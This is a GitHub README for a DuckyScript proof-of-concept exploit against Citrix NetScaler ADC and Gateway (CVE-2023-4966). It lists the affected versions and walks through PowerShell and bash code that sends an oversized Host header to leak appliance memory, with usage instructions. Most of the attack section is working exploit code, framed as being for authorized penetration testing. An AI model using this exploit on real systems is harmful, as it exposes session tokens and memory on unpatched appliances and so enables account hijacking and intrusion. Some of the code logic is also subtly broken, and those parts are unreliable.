

# Exploit Citrix NetScaler ADC and Gateway through CVE-2023-4966

This payload sends an HTTP request to a remote server using the `curl` command. If the request succeeds, it means the exploit was successful. Conversely, if the request fails, it indicates that the target has resisted the attack.

This payload is a Proof of Concept (POC) based on DuckyScript and is intended for use only in authorized penetration testing. CVE-2023-4966 [[1](#sources)] has been resolved, and I have decided to release this payload only now to minimize the risk of it being used inappropriately. Please use this payload exclusively when you are fully aware of what you are doing and have obtained explicit authorization from the target.

**Category**: incident-response

## Index

- [Exploit Citrix NetScaler ADC and Gateway through CVE-2023-4966](#exploit-citrix-netscaler-adc-and-gateway-through-cve-2023-4966)
	- [CVE-2023-4966](#cve-2023-4966)
		- [Summary](#summary)
		- [Impacted Products](#impacted-products)
  - [Settings](#settings)
	- [DuckyScript Extensions Used](#duckyScript-extensions-used)
	- [Payload Description Windows](#payload-description-windows)
	- [Payload Description Linux](#payload-description-linux)
  - [Script.sh](#script-sh)
	- [Sources](#sources)
	- [Credits](#credits)

## CVE-2023-4966

Multiple vulnerabilities have been discovered in NetScaler ADC (formerly Citrix ADC) and NetScaler Gateway (formerly Citrix Gateway).

### Summary

NetScaler ADC and NetScaler Gateway contain unauthenticated buffer-related vulnerabilities mentioned below 

### Impacted Products

The following supported versions of NetScaler ADC and NetScaler Gateway are affected by the vulnerabilities: 

    - NetScaler ADC and NetScaler Gateway 14.1 before 14.1-8.50
    - NetScaler ADC and NetScaler Gateway 13.1 before 13.1-49.15
    - NetScaler ADC and NetScaler Gateway 13.0 before 13.0-92.19
    - NetScaler ADC 13.1-FIPS before 13.1-37.164
    - NetScaler ADC 12.1-FIPS before 12.1-55.300
    - NetScaler ADC 12.1-NDcPP before 12.1-55.300

***Note**: NetScaler ADC and NetScaler Gateway version 12.1 is now End-of-Life (EOL) and is vulnerable.*

This bulletin only applies to customer-managed NetScaler ADC and NetScaler Gateway products. Customers using Citrix-managed cloud services or Citrix-managed Adaptive Authentication do not need to take any action.



***Source**: The information was acquired from the official website of [support.citrix.com](#sources).*

## Settings

The sole configuration parameter that requires modification is the hostname, which represents the IP address (without protocol) of the target Citrix ADC / Gateway machine, such as 192.168.1.200. To configure this setting, you need to edit the "payload.txt" file to specify the desired address.

```DuckyScript
DEFINE #HOSTNAME 192.168.1.200
```

## DuckyScript Extensions Used

- **PASSIVE_WINDOWS_DETECT**: Extension used to check which operating system you are operating on so that you have a valid tool for both Windows and different systems, for instance GNU/Linux systems. [[3](#sources)]

## Payload Description Windows

In this line, a variable named `$header_value` is created, containing a string of 24576 'a' characters. This variable represents the value to be used in the HTTP header.

```powershell
$header_value = 'a' * 24576
```

Here, all newline characters ("\n") are removed from the string stored in `$header_value`. This is done to ensure that the string doesn't contain any line break characters.

```powershell
$header_value = $header_value -replace "\n", ""
```

A variable `$headers` is created, which holds an HTTP header formatted as a string. This header will be used in the subsequent HTTP request.

```powershell
$headers = "-H 'Host:$header_value'"
```

Here, a variable `$headers` is created as a hashtable containing the HTTP header. In this case, only the "Host" header is used, with the value from `$header_value`.

```powershell
$headers = @{ 'Host' = $header_value }
```

This line defines the variable `$uri`, which contains the target URL for the HTTP request. Note that "#HOSTNAME" is a DuckyScript variable that should be replaced with the actual value before executing the script (see the [Settings](#settings) section).

```powershell
$uri = "https://#HOSTNAME/oauth/idp/.well-known/openid-configuration"
```

Here, the HTTP request to the specified URL is executed using the GET method and with the headers defined in the `$headers` variable. The result of the request is stored in the `$response` variable.

```powershell
$response = Invoke-RestMethod -Uri $uri -Headers $headers -Method GET -TimeoutSec 10
```

This `if` statement checks if the first three characters of the HTTP response in the `$response` variable are equal to "200," indicating a successful HTTP response.

```powershell
if ($response.Substring(0, 3) -eq "200")
```

If the preceding condition is true, some messages are printed to indicate the beginning of the output.

```powershell
Write-Host "--- Dumped memory ---"
$response.Substring(131050)
Write-Host "The #HOSTNAME is vulnerable!"
Write-Host "--- End ---"
```

If the initial condition of the `if` statement is not met, a message is printed, indicating that the machine is not vulnerable.

```powershell
Write-Host "Could not dump memory"
```

## Payload Description Linux

This line sets the `header_value` variable to a string containing 24,576 'a' characters. It uses the `yes` command to repeatedly output 'a' and `head` to limit it to 24,576 lines. The `tr` command is used to remove any newline characters, resulting in a long string of 'a's.

```bash
header_value=$(yes a | head -n 24576 | tr -d '\n')
```

Here, the `headers` variable is constructed with the `-H` option for the cURL command. It sets the 'Host' header to the previously generated `header_value`.

```bash
headers="-H 'Host:$header_value'"
```
This line uses cURL to send a request to the specified URL with the constructed `headers`. The `-s` flag suppresses progress meter and error messages, while the `-k` flag allows cURL to perform an insecure SSL connection. The `--connect-timeout 10` flag sets a connection timeout of 10 seconds. The response is stored in the `response` variable.

```bash
response=$(curl -s -k -H "$headers" "https://$hostname/oauth/idp/.well-known/openid-configuration" --connect-timeout 10)
```

In this block, it checks if the exit status of the cURL command is 0 (indicating a successful request) and if the first three characters of the response are "200" (HTTP success code). If both conditions are met, it prints `--- Dumped memory ---`, followed by a portion of the response starting from character 131,051, and then indicates that the hostname is vulnerable. If the conditions are not met, it prints `Could not dump memory`.

```bash
if [ $? -eq 0 ] && [ "$(echo $response | cut -c 1-3)" == "200" ]; then
    echo "--- Dumped memory ---"
    echo "$response" | cut -c 131051-
    echo "The #HOSTNAME is vulnerable!"
    echo "---      End      ---"
else
    echo "Could not dump memory"
fi
```

## Script sh

The script.sh script accepts one parameter, which should be the target hostname without the application of a protocol (e.g., `192.168.1.200`). It uses this parameter to perform a specific action in the exploit.

Example Execution:

```shell
./script.sh 192.168.1.200
```

Before running the script, you might need to grant execute permissions to the file, as mentioned. You can do this with the following command:

```shell
sudo chmod +x script.sh
```

After assigning execute permissions, the above command allows the user to run the script without having to specify the sh command before the script's name.

## Sources

- [1] Official source of information acquisition: https://support.citrix.com/article/CTX579459/netscaler-adc-and-netscaler-gateway-security-bulletin-for-cve20234966-and-cve20234967
- [2] ..
- [3] Passive Windows Detect: https://github.com/hak5/usbrubberducky-payloads/blob/master/payloads/extensions/passive_windows_detect.txt
- [4] Red Hot Cyber post: https://www.redhotcyber.com/post/e-pubblico-lexploit-per-il-bug-critico-di-citrix-netscaler-adc-e-gateway-scopriamo-come-funziona/

## Credits

<h2 align="center"> Aleff</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>